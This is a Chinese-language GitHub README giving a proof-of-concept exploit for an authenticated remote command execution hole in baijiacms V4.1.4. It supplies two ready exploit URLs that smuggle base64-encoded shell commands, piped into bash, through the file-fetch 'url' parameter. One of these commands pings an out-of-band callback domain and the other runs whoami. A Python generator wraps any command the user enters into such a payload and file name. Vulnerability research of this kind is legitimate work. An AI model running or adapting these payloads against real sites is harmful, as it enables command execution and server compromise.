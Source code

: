# baijiacms-RCE
baijiacms后台RCE


项目地址：https://github.com/baijiacms/baijiacmsV4

版本：V4.1.4 20170105 FINAL
环境：

+ php 5.5.38
+ nginx 1.15
+ mysql 5.7.27
+ 20.04.1-Ubuntu


[README_en](https://github.com/This-is-Y/baijiacms-RCE/blob/main/README_en.md)

漏洞点在文件includes/baijiacms/common.inc.php
第654行。

![图片](https://user-images.githubusercontent.com/51741690/202916918-cb2b4576-d20b-4033-9fd4-da7cf3e4bff9.png)


# 利用

这个system的功能本来是为了执行压缩图片的。所以要利用该漏洞，需要先登录后台，在附近设置中设置图片压缩比例，否则代码无法运行到此处。
![图片](https://user-images.githubusercontent.com/51741690/202916939-4b14710d-5528-4b78-89a1-6afdb18de143.png)



EXP1：http://192.168.0.64/baijiacmsV4-4.1.4/index.php?mod=site&act=public&do=file&op=fetch&url=http://127.0.0.1/poc.;echo${IFS}cGluZyBwb2MuZXhyNm1xLmNleWUuaW8gLWMgNA==|base64${IFS}-d|bash;&status=1&beid=1
![图片](https://user-images.githubusercontent.com/51741690/202916957-60d79a4a-f01e-4e89-9a6c-4d9e13c733eb.png)




EXP2：http://192.168.0.64/baijiacmsV4-4.1.4/index.php?mod=site&act=public&do=file&op=fetch&url=http://127.0.0.1/whoami.;echo${IFS}d2hvYW1p|base64${IFS}-d|bash;&status=1&beid=1
![图片](https://user-images.githubusercontent.com/51741690/202916979-b8c559ac-a262-4d58-9494-1341d12b3d80.png)




其中poc可以使用一下代码生成，随后开启web服务确保可以被访问到即可

```python
import base64

webpath = "/home/ubuntu/test/"
print("exr6mq.ceye.io")
cmd = input("cmd>>> ") or "ping php2.exr6mq.ceye.io"


b64cmd = base64.b64encode(cmd.encode()).decode()

payload = f"echo {b64cmd}|base64 -d|bash"

print(payload)
payload = payload.replace(' ','${IFS}')
print(payload)

name = input("name>>>")
payload = f"{name}.;{payload};"
print(payload)

with open(file=webpath+payload,mode='w')as f:
    f.write('1')

```





